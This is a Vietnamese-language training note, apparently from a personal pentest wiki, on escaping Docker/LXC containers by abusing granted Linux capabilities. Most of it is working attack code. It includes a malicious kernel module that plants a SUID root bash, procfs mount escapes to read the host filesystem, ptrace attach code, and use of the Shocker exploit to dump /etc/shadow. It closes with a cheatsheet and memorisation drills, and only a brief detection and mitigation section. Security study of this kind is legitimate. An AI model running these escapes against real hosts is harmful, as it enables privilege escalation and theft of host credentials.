

> **Prerequisites**: [[17-docker-lxc-security|17. Docker & LXC Security]] · [[19-cgroup-release-agent-escape|19. cgroup release_agent]]
> **Objectives**:
> - Hiểu các capabilities nguy hiểm nhất trong container context
> - Khai thác `CAP_SYS_ADMIN` qua nhiều vector: mount, eBPF, kernel module
> - Khai thác `CAP_NET_ADMIN` qua eBPF program để read host memory
> - Enumerate và decode capabilities nhanh chóng
>
---

## Điều kiện khai thác

> [!note] Điều kiện cần
> - Container được cấp capability nguy hiểm (qua `--cap-add`, custom security profile, hoặc misconfiguration)
> - seccomp không block syscalls liên quan đến capability đó
> - Attacker có shell trong container
>
---

## Cơ chế tấn công

### Decode Capabilities Nhanh

```bash
# Đọc CapEff (effective capabilities):
capeff=$(awk '/CapEff/{print $2}' /proc/self/status)
echo "CapEff hex: $capeff"

# Decode từng bit (Python):
python3 -c "
import sys
v = int('$capeff', 16)
caps = {
    0:'CHOWN', 1:'DAC_OVERRIDE', 2:'DAC_READ_SEARCH', 3:'FOWNER',
    4:'FSETID', 5:'KILL', 6:'SETGID', 7:'SETUID', 8:'SETPCAP',
    9:'LINUX_IMMUTABLE', 10:'NET_BIND_SERVICE', 11:'NET_BROADCAST',
    12:'NET_ADMIN', 13:'NET_RAW', 14:'IPC_LOCK', 15:'IPC_OWNER',
    16:'SYS_MODULE', 17:'SYS_RAWIO', 18:'SYS_CHROOT', 19:'SYS_PTRACE',
    20:'SYS_PACCT', 21:'SYS_ADMIN', 22:'SYS_BOOT', 23:'SYS_NICE',
    24:'SYS_RESOURCE', 25:'SYS_TIME', 26:'SYS_TTY_CONFIG', 27:'MKNOD',
    28:'LEASE', 29:'AUDIT_WRITE', 30:'AUDIT_CONTROL', 31:'SETFCAP',
    32:'MAC_OVERRIDE', 33:'MAC_ADMIN', 34:'SYSLOG', 35:'WAKE_ALARM',
    36:'BLOCK_SUSPEND', 37:'AUDIT_READ', 38:'PERFMON', 39:'BPF', 40:'CHECKPOINT_RESTORE'
}
print([caps[i] for i in range(41) if v & (1<<i)])
"
```

### CAP_SYS_ADMIN — Escape Vectors

`CAP_SYS_ADMIN` là capability mạnh nhất, cho phép rất nhiều thứ:

**Vector 1: Kernel module load**

```c
// Nếu CAP_SYS_MODULE có (hoặc CAP_SYS_ADMIN trên kernel cũ):
// Compile kernel module thực hiện cred patching hoặc reverse shell
// init_module() syscall để load
#include <linux/module.h>
MODULE_LICENSE("GPL");
static int __init evil_init(void) {
    // Chạy trong Ring 0 với full kernel privileges
    struct cred *new = prepare_kernel_cred(NULL);
    commit_creds(new);
    // Thay đổi cred của caller → root
    return 0;
}
module_init(evil_init);
```

**Vector 2: eBPF program (CAP_BPF hoặc CAP_SYS_ADMIN)**

eBPF là Linux kernel virtual machine — chạy programs an toàn trong kernel. Nhưng có thể abuse:

```python
# eBPF kprobe trên kernel functions → đọc kernel memory
# CVE-2021-3490, CVE-2021-31440 — eBPF verifier bypass cho AAR/AAW

# Simplified: dùng bpf() syscall với BPF_PROG_TYPE_KPROBE
# → attach vào bất kỳ kernel function
# → đọc/ghi kernel memory từ eBPF program

# Công cụ: BPFtool, libbpf
bpftool prog load exploit.bpf.o /sys/fs/bpf/evil
bpftool prog run id <id> data_in /dev/zero
```

**Vector 3: Mount host filesystem (với CAP_SYS_ADMIN)**

```bash
# Nếu seccomp không block mount:
# Và có CAP_SYS_ADMIN → mount bất kỳ filesystem
mount -t proc proc /proc          # re-mount proc
mount --bind /etc /tmp/secret     # bind mount
mount -o remount,rw /             # make root writable

# Escape via procfs:
mount -t proc proc /tmp/proc
ls /tmp/proc/1/root/              # → host root directory!
```

### CAP_NET_ADMIN — eBPF Network Escape

`CAP_NET_ADMIN` thường được cấp cho containers cần cấu hình network. Nhưng nó cho phép:
- Tạo raw sockets
- Thay đổi network interfaces
- Load eBPF programs vào networking stack (TC, XDP)

```bash
# Kiểm tra CAP_NET_ADMIN:
python3 -c "
v=int(open('/proc/self/status').read().split('CapEff:')[1].split()[0], 16)
print('CAP_NET_ADMIN: YES' if v&(1<<12) else 'NO')
"

# Với CAP_NET_ADMIN: load eBPF vào TC (traffic control)
# eBPF có thể đọc/ghi packets, exfil data, hoặc bypass seccomp checks
```

### CAP_SYS_PTRACE — Attach to Host Process

```bash
# Nếu seccomp không block ptrace:
# Tìm PID của host process
ps aux | grep -v "^$(cat /proc/self/status | grep NSpid | awk '{print $3}')"
# → PIDs trong host namespace (nếu PID namespace không isolated hoàn toàn)

# Attach và inject shellcode:
python3 -c "
import ctypes, os, sys
PTRACE_ATTACH = 16; PTRACE_CONT = 7
libc = ctypes.CDLL('libc.so.6')
target_pid = <HOST_PID>
libc.ptrace(PTRACE_ATTACH, target_pid, 0, 0)
os.waitpid(target_pid, 0)
# → có thể đọc/ghi memory của host process
"
```

### CAP_DAC_READ_SEARCH — Read Any File

```bash
# Cho phép bypass DAC (Discretionary Access Control):
# Đọc bất kỳ file trên filesystem, bỏ qua permission checks

python3 -c "
import ctypes, os
# open_by_handle_at syscall với CAP_DAC_READ_SEARCH
# → đọc file bằng inode number, bypass path restrictions
# Basis của Shocker exploit (container escape via open_by_handle_at)
libc = ctypes.CDLL(None)
# ... shocker implementation
"
```

---

## Quy trình tấn công

**Môi trường**: Container với `CAP_SYS_ADMIN` explicit.

**Bước 1 — Enumerate capabilities**

```bash
capeff=$(awk '/CapEff/{print $2}' /proc/self/status)
python3 -c "
v=int('$capeff', 16)
dangerous = {21:'SYS_ADMIN', 12:'NET_ADMIN', 19:'PTRACE', 16:'SYS_MODULE', 39:'BPF', 2:'DAC_READ_SEARCH'}
found = [(cap,name) for bit,(cap,name) in [(b,(b,n)) for b,n in dangerous.items()] if v&(1<<bit)]
[print(f'[!] CAP_{n} detected') for b,n in [(b,n) for b,n in dangerous.items() if v&(1<<b)]]
"
```

> **Expected output**: `[!] CAP_SYS_ADMIN detected` (hoặc các caps khác)
>
**Bước 2 — CAP_SYS_ADMIN → mount escape**

```bash
# Check seccomp cho phép mount không:
unshare -m bash -c "mount -t tmpfs tmpfs /mnt && echo 'mount allowed'" 2>&1

# Nếu allowed → mount host /proc namespace để read host files:
mkdir -p /tmp/hostproc
nsenter --target 1 --mount -- mount -t proc proc /tmp/hostproc 2>/dev/null || \
mount -t proc proc /tmp/hostproc

ls /tmp/hostproc/1/root/     # host files!
```

**Bước 3 — Kernel module load (nếu allowed)**

```bash
# Kiểm tra có thể load module không:
cat /proc/sys/kernel/modules_disabled
# 0 → modules allowed; 1 → disabled

# Nếu allowed, compile và load evil module:
# (cần kernel headers trong container)
cat > /tmp/evil.c << 'EOF'
#include <linux/module.h>
#include <linux/kernel.h>
MODULE_LICENSE("GPL");
static int __init evil_init(void) {
    char *argv[] = {"/bin/bash", "-c", "cp /bin/bash /tmp/r; chmod 4755 /tmp/r", NULL};
    char *env[] = {"HOME=/", "TERM=linux", "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL};
    call_usermodehelper(argv[0], argv, env, UMH_WAIT_PROC);
    return 0;
}
module_init(evil_init);
EOF
# Build và insmod evil.ko → /tmp/r SUID bash
```

---

## Biến thể & Bypass

### Shocker exploit (CAP_DAC_READ_SEARCH)

Classic container escape — dùng `open_by_handle_at()` syscall để đọc host files bằng inode number:

```c
// Scan inodes của host "/" directory
// open_by_handle_at() bypass mount namespace boundary với CAP_DAC_READ_SEARCH
// → đọc /etc/shadow, private keys từ host
// Reference: github.com/gabrtv/shocker
```

---

## Cây quyết định



---

## Command Cheatsheet

**Enumerate all dangerous caps**

```bash
python3 - << 'EOF'
v = int(open('/proc/self/status').read().split('CapEff:')[1].split()[0], 16)
for b,n in {21:'SYS_ADMIN',12:'NET_ADMIN',19:'SYS_PTRACE',16:'SYS_MODULE',
            39:'BPF',2:'DAC_READ_SEARCH',17:'SYS_RAWIO'}.items():
    if v&(1<<b): print(f'[!] CAP_{n}')
EOF
```

**CAP_SYS_ADMIN → mount escape**

```bash
mount -t proc proc /tmp/hp 2>/dev/null && ls /tmp/hp/1/root/
# Thấy host files → confirmed escape
```

**CAP_DAC_READ_SEARCH → shocker**

```bash
# Download shocker.c và compile:
gcc -o shocker shocker.c && ./shocker /etc/shadow /output.txt
cat /output.txt   # host shadow file
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 5 ngày.

**Drill 1 — Decode CapEff trong 60 giây**
Mục tiêu: Từ hex CapEff, biết ngay dangerous caps nào có mặt.

Luyện cho đến khi: bit mask decode là phản xạ.

**Drill 2 — Mount escape từ nhớ**

```bash
mount -t proc proc /tmp/hp && ls /tmp/hp/1/root/
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Syscall anomaly**: `bpf()`, `init_module()`, `mount()` từ container process → alert
> **Falco**: `evt.type=bpf AND container.id!=host`
> **Audit**: Unexpected kernel module load từ container
>
> [!note] Mitigation
> - Không cấp `CAP_SYS_ADMIN` nếu không cần thiết
> - seccomp profile block `bpf`, `mount`, `init_module`, `ptrace`
> - Dùng rootless containers (Podman) — không có root mapping tới host
> - `--cap-drop=ALL --cap-add=<chỉ caps thực sự cần>` (principle of least privilege)
>
---

## Lab Thực hành

| Platform | Challenge | Tại sao phù hợp |
|----------|-----------|----------------|
| Local | `docker run --cap-add=SYS_ADMIN` | Mount + eBPF abuse practice |
| HTB | Carpediem | CAP_SYS_ADMIN path |
| CTF | eBPF challenges | Modern eBPF exploitation |

---

## Field Manual Entry

> [!abstract] Capability Abuse — Quick Reference
> **Enumerate**: `python3 -c "v=int(open('/proc/self/status').read().split('CapEff:')[1].split()[0],16);[print('CAP_'+n) for b,n in {21:'SYS_ADMIN',12:'NET_ADMIN',19:'PTRACE',16:'SYS_MODULE'}.items() if v&(1<<b)]"`
> **SYS_ADMIN → mount**: `mount -t proc proc /tmp/hp; ls /tmp/hp/1/root/`
> **SYS_MODULE**: load evil .ko → Ring 0 code execution
> **DAC_READ_SEARCH**: Shocker exploit → `open_by_handle_at` bypass
> **Ref**: [[20-capability-abuse-escape|20. Capability Abuse]]
>